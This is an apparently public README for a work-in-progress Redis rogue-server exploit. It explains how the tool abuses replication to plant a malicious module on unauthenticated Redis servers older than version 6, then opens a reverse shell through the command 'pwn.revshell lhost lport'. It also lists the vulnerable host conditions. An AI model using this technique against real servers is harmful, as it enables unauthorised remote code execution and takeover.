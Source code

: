 # Redis Rogue (WIP)
After making [redis-ssh](https://github.com/LevitatingBusinessMan/redis-ssh) I wanted to take it a step further and make a redis rogue server. The previously mentioned exploit was only applicable on servers where the home directory of the user running Redis was known, and contained a .ssh folder. This new exploit should be able to target far more Redis servers.

### How it works
The exploit works by telling the victim master server to become a slave of the rogue server.
After this the rogue server can overwrite all cached data and save the database to aanywhere on the system.
This way the rogue server can upload arbitrary files to the system, including uploading a RedisModule. We can then force the victim to load this module. After the malicious module has been loaded we can connect to the redis server, and run the command `pwn.revshell lhost lport`, which will give us a shell.
This works as long as the Redis version used isn't 6.x.x or newer, because this version requires every module to have executable rights before being loaded.

Included in this repository is the source of the malicious RedisModule I wrote. You can use this to write your own malicious RedisModules.

### Vulnerable hosts
For this exploit a host has to run redis with persistence enabled, no authentication. The redis version can't be 6 or higher.
The exploit has been tested on redis 5, and might work on older versions.
If the server is running Redis 6 and the configuration reveils the username of the user running it, you might want to give [redis-ssh](https://github.com/LevitatingBusinessMan/redis-ssh) a try instead.

### TODO
* Finish this readme
* Confirm ports are open and host is up
* Timeout on the connect-back
* Timeout on all receive and send commands
* Check if server is vulnerable (by checking for persistence, auth, redis version)
* Copy some features from redis-ssh (like switching from a slave to the master)
* Ability to spawn a shell and accepting it elsewhere
* Ability to insert the module without running it
* Ability to specify a module to upload

